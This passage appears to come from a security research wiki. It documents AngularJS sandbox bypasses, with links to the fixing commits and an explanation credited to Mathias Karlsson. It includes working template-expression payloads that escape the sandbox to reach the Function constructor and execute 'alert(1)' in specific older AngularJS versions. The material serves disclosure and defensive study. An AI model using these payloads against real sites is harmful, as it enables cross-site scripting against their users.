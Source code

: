 These are the commits that fix the issues: https://github.com/angular/angular.js/compare/2df721...2e6144

This is the corresponding Changelog entry: https://github.com/angular/angular.js/commit/b3b501

Shortened, stand-alone example:

```
<html ng-app>
<head>
    <meta charset="utf-8">
    <script src="https://ajax.googleapis.com/ajax/libs/angularjs/1.2.18/angular.js"></script>
</head>
<body>
{{(_=''.sub).call.call({}[$='constructor'].getOwnPropertyDescriptor(_.__proto__,$).value,0,'alert(1)')()}}
</body>
```

## AngularJS 1.2.19-1.2.23 / > 1.3.0-beta.14 ##
The following lines describe an AngularJS sandbox bypass discovered by Mathias Karlsson - who also contributed this section to the wiki:

  * you can obtain a reference to Function by simply using `toString.constructor` (this was previously fixed but re-broken in 1.2.19)
    * fixed now
  * you can obtain a reference to Function.prototype by simply using `toString.constructor.prototype` (this was previously fixed but re-broken in 1.2.19)
    * can be used to override native methods on Function.prototype such as toString and valueOf
    * fixed now
  * Array functions that executes callbacks, such as Array.filter, Array.sort and Array.map are allowed
    * calling blacklisted functions such as Function() through these works!
  * Array functions with callbacks executes the callback function using objects in the array as arguments.
    * Using this, we can control the arguments of Function and create a new function
  * When JavaScript compares the return values of the callback functions
    * If the return value is an unexpected type, it will be converted to a string for comparison using the toString method.
    * Overriding toString with call will make JS call the function instead of converting it to a string

Using these observations we can construct a bypass like this:
```
toString.constructor.prototype.toString=toString.constructor.prototype.call;
["a","alert(1)"].sort(toString.constructor);
```

Since browsers handles the order of the items to be sorted differently when sending them to the provided comparison (callback) function, a bypass for other browsers can easily be constructed by swapping the order of the items:
```
toString.constructor.prototype.toString=toString.constructor.prototype.call;
["alert(1)","a"].sort(toString.constructor);
```
